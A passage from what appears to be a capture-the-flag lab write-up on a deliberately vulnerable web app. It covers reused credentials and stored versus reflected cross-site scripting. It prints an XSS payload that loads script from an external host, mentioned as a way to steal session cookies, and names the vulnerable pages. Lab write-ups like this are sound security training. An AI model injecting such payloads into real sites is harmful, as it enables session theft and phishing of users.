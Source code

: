 ![log](/assets/images/THM/2020-08-08-webappsec-101/9.png)

A same mistake like the admin. Both username and password are the same for Bryce.

## Task 5: Cross-site scripting (XSS)

### Phase 3: Injection (XSS)

XSS is a type of vulnerability by injecting malicious javascript into the web application even the websites is fully trustable. This exploitable redirect the victim to a phishing site or steal the session cookie as I did. There is a list of XSS payload available [on the Internet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet). For the sake of simplicity, I used the following XSS for all the tasks

```
 <SCRIPT SRC=http://xss.rocks/xss.js></SCRIPT>
```

There are two basic types of XSS which are persistent (stored in the database) and non-persistent (not stored). You can inject persistent XSS on the guest.php while non-persistent in the search bar and file upload bar.

![guess xss](/assets/images/THM/2020-08-08-webappsec-101/10.png)
